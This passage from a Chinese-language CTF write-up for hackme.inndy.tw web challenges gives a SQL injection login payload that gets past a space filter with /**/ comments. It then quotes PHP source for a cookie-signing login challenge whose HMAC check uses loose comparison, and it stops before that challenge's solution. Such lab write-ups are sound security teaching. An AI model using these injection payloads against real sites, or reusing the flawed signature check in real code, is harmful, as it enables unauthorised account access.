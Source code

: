 增加了一个空格过滤，对于union select等过滤也十分不严谨，所以修改上题payload即可。

可以使用/**/来绕过。

payload: 

```
username: admin\'/**/or/**/1/**/limit/**/1,1#
password: whatever you like
```

## 22. [login as admin 3](https://hackme.inndy.tw/login3/) (Web)

依然先看source code：

```php
function set_user($user_data)
{
    global $user, $secret;

    $user = [$user_data['name'], $user_data['admin']];

    $data = json_encode($user);
    $sig = hash_hmac('sha512', $data, $secret);
    $all = base64_encode(json_encode(['sig' => $sig, 'data' => $data]));
    setcookie('user', $all, time()+3600);
}

$error = null;

function load_user()
{
    global $secret, $error;

    if(empty($_COOKIE['user'])) {
        return null;
    }

    $unserialized = json_decode(base64_decode($_COOKIE['user']), true);
    $r = hash_hmac('sha512', $unserialized['data'], $secret) != $unserialized['sig'];

    if(hash_hmac('sha512', $unserialized['data'], $secret) != $unserialized['sig']) {
        $error = 'Invalid session';
        return false;
    }

    $data = json_decode($unserialized['data'], true);
    return [
        'name' => $data[0],
        'admin' => $data[1]
    ];
}

$user = load_user();

if(!empty($_POST['name']) && !empty($_POST['password'])) {
    $user = false;
    foreach($users as $u) {
        if($u['name'] === $_POST['name'] && $u['password'] === $_POST['password']) {
            set_user($u);
        }
    }
}
?>

```